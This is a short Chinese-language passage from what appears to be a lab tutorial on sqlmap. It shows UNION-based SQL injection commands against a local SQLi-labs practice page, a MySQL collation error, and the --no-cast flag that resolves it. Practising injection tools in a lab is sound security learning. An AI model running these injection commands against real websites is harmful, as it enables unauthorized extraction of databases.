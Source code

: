 

通过把`-v`参数指定为6级，看看页面返回内容

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" --dbms=mysql --technique=U --dbs --flush-session --batch -v 6
```

老版本 MySQL 没有自动字符集转换机制，sqlmap的payload不兼容，mysql报错。

```plaintext
<font color= "#FFFF00">Illegal mix of collations (gbk_chinese_ci,IMPLICIT) and (latin1_swedish_ci,IMPLICIT) for operation 'UNION'</font></font> </div></br></br></br><center>
```

![16](/medias/sqlmap/16.png)


尝试使用`--no-cast`参数，关闭mysql的类型转换，拿到数据

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" --dbms=mysql --technique=U --dbs --flush-session --batch --no-cast
```
